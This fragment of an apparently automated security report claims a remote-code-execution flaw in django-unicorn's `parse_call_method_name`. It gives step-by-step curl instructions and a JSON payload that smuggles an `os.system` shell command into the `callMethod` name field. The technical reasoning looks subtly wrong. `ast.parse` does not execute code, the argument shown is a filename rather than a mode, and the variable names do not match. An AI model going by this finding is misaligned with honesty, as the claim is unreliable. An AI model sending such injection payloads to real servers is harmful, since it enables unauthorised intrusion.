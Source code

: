 - **Preconditions:**
    - A publicly accessible Django application using `django-unicorn`.
    - The application must handle `callMethod` actions.

- **Source code analysis:**
    ```python
    # File: django_unicorn/call_method_parser.py
    @lru_cache(maxsize=128, typed=True)
    def parse_call_method_name(
        call_method_name: str,
    ) -> Tuple[str, Tuple[Any, ...], Mapping[str, Any]]:
        """
        Parses the method name from the request payload into a set of parameters to pass to
        a method.
        ...
        """
        tree = ast.parse(method_name, "eval") # Vulnerable code: ast.parse with mode='eval'
        # ...
    ```
    - `parse_call_method_name` in `django_unicorn/call_method_parser.py` uses `ast.parse(method_name, "eval")`.
    - `method_name` is directly from the request payload's `name` field in `callMethod` action.
    - `ast.parse(..., mode='eval')` is dangerous with untrusted input, enabling arbitrary code execution.

- **Security test case:**
    - **Vulnerability Test Name:** RCE via `ast.parse` in `callMethod`
    - **Test Description:** Execute arbitrary Python code by injecting malicious code into the `callMethod` name payload.
    - **Step-by-step test:**
        1. Setup a Django project with django-unicorn and a publicly accessible view with a Unicorn component.
        2. Create a simple Unicorn component method (e.g., `test_method`).
        3. Using `curl`, send a POST request to `/message/{component_name}` with `Content-Type: application/json`.
        4. Include the JSON payload:
        ```json
        {
          "id": "testComponentId",
          "name": "testComponentName",
          "epoch": 1678886400,
          "data": {},
          "checksum": "...",
          "actionQueue": [
            {
              "type": "callMethod",
              "payload": {
                "name": "import os; os.system('touch /tmp/unicorn_rce');test_method"
              }
            }
          ]
        }
        ```
        - Replace `"..."` with the correct checksum.
        5. Send the request.
        6. Check the server for the creation of `/tmp/unicorn_rce`. If present, RCE is confirmed.
